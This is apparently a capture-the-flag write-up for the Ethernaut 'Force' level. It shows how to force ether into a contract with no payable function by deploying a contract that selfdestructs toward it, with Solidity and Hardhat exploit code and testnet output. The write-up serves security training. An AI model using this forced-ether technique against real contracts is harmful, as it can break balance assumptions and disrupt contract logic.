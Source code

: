```yaml
---
title: Ethernaut \#07 Force
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Force challenge writeup
---
```


## Force

### Challenge

Some contracts will simply not take your money `¯\_(ツ)_/¯`

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

* Fallback methods
* Sometimes the best way to attack a contract is with another contract.
* See the Help page above, section "Beyond the console"


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

### Background

This challange was the first I didn't know how to solve and needed to check. It turns out when a contract `selfdestruct`s it can choose where its funds should go. And one option is to send all funds to a different contract. In this case the contract will accept the funds.

### Attack

Create a contract with `selfdestruct` functionality, send funds to it and trigger the `selfdestruct` with the address of the `Force` contract.

* Create a contract that can `selfdestruct`
* Call the `selfdestruct` functionality on the contract with the `Force` address argument and send some value to it

#### ForceSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForceSolve {

  constructor() public {}

  function send(address payable _forceAddress) public payable {
    selfdestruct(_forceAddress);
  }
}
```

#### force-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    forceAddress = "0x5B4656e37375734215B0C4dB0fFE6548009C9c26";
    contract = await ethers.getContractAt("Force", forceAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    ForceSolve = await ethers.getContractFactory("ForceSolve");
    forceSolve = await ForceSolve.deploy();
    await forceSolve.deployed();

    console.log("Level address   : " + contract.address)
    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))

    // send funds buy calling selfdestruct
    tx = await forceSolve.connect(account).send(contract.address, { value: 1 })
    receipt = await tx.wait()

    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/force-solve.js --network rinkeby
Level address   : 0x5B4656e37375734215B0C4dB0fFE6548009C9c26
Contract Balance: 0
Contract Balance: 1
```

### Success Message

In solidity, for a contract to be able to receive ether, the fallback function must be marked `payable`.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.
